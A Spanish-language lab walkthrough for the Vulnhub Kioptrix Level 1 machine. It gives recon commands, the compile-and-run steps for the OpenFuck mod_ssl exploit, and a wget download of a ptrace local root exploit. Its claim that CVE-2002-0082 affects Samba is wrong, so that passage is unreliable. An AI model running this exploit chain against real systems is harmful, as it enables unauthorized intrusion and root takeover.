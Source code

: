<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=320&height=80&lines=KIOPTRIX_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177676522-7542cd60-297b-4537-a657-a6e613e22122.png)

IP host: `192.168.1.104`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.104
```
![2](https://user-images.githubusercontent.com/75953873/177677054-4379065b-7b00-4c1a-a2b7-63688488f52e.png)

Puertos abiertos: [22,80,111,139,443]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,111,139,443 -A 192.168.1.104
```
![3](https://user-images.githubusercontent.com/75953873/177677619-5b6fa806-14d5-4474-b6a8-800e1a8b8618.png)

![4](https://user-images.githubusercontent.com/75953873/177677647-f1513f29-98ca-40bd-901e-ac9466faa0aa.png)

Servidor corriendo: **HTTP Apache** (puerto 80 y 443)

O.S: **Linux**

URL: `http://192.168.1.104`

![5](https://user-images.githubusercontent.com/75953873/177677946-e9cfd943-0c77-44a3-991c-c2d5a0377648.png)

- *Paso 4:* Escanear vulnerabilidades en el servidor con Nikto. 
```
nikto -h http:///192.168.1.104
```
![6](https://user-images.githubusercontent.com/75953873/177678387-f0e381c3-874c-4919-b910-15f9fd2e5de6.png)

Vulnerabilidad **CVE-2002-0082**: permite que un atacante explote el desbordamiento de búfer que se encuentra en las versiones de Samba 2.2.0 a 2.2.8.

- https://www.cvedetails.com/cve/CVE-2002-0082/

- *Paso 5:* Localizar exploti, descargarlo, compilarlo y ejecutarlo. 
```
searchsploit -m 47080
```
![8](https://user-images.githubusercontent.com/75953873/177683169-2b356aea-a453-4d46-9e64-6bf3a0906d15.png)

```
mv 47080.c OpenFuck.c
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104 443 -c 40
```
![7](https://user-images.githubusercontent.com/75953873/177683272-6f97282a-31d1-46be-94c9-3020f0e959be.png)

```
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
mv ptrace-kmod.c ptrace.c
python3 -m http.server 80
cd /tmp
gcc -o exploit ptrace.c
chmod +x exploit
./exploit
cd /root
cat anaconda-ks.cfg
```
![9](https://user-images.githubusercontent.com/75953873/177688261-c2596953-e1ff-47d5-a64e-0f67619cad50.png)
